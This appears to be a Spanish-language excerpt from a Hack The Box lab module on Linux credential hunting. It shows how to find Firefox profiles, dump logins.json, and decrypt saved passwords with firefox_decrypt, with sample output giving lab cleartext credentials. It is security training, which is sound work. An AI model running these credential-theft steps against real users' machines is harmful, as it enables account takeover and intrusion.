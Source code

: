 Por ejemplo, al almacenar las credenciales de una página web en Firefox, estas se cifran y se almacenan en logins.json en el sistema. Sin embargo, esto no significa que estén seguras allí. Muchos empleados almacenan estos datos de inicio de sesión en su navegador sin sospechar que pueden descifrarse fácilmente y usarse en contra de la empresa.

```
s -l .mozilla/firefox/ | grep default  

drwx------ 13 polika4r polika4r 4096 oct 10 19:13 1ig9y296.default-esr
drwx------  2 polika4r polika4r 4096 ago 31 13:56 5ah7n3rp.default
```

```shell-session
Polika4RM@htb[/htb]$ cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .

{
  "nextId": 2,
  "logins": [
    {
      "id": 1,
      "hostname": "https://www.inlanefreight.com",
      "httpRealm": null,
      "formSubmitURL": "https://www.inlanefreight.com",
      "usernameField": "username",
      "passwordField": "password",
      "encryptedUsername": "MDoEEPgAAAA...SNIP...1liQiqBBAG/8/UpqwNlEPScm0uecyr",
      "encryptedPassword": "MEIEEPgAAAA...SNIP...FrESc4A3OOBBiyS2HR98xsmlrMCRcX2T9Pm14PMp3bpmE=",
      "guid": "{412629aa-4113-4ff9-befe-dd9b4ca388e2}",
      "encType": 1,
      "timeCreated": 1643373110869,
      "timeLastUsed": 1643373110869,
      "timePasswordChanged": 1643373110869,
      "timesUsed": 1
    }
  ],
  "potentiallyVulnerablePasswords": [],
  "dismissedBreachAlertsByLoginGUID": {},
  "version": 3
}
```

La herramienta Firefox Decrypt es excelente para descifrar estas credenciales y se actualiza periódicamente. Requiere Python 3.9 para ejecutar la última versión. De lo contrario, se debe usar Firefox Decrypt 0.7.0 con Python 2.
```
Polika4RM@htb[/htb]$ python3.9 firefox_decrypt.py

Select the Mozilla profile you wish to decrypt
1 -> lfx3lvhb.default
2 -> 1bplpd86.default-release

2

Website:   https://testing.dev.inlanefreight.com
Username: 'test'
Password: 'test'

Website:   https://www.inlanefreight.com
Username: 'cry0l1t3'
Password: 'FzXUxJemKm6g2lGh'
```
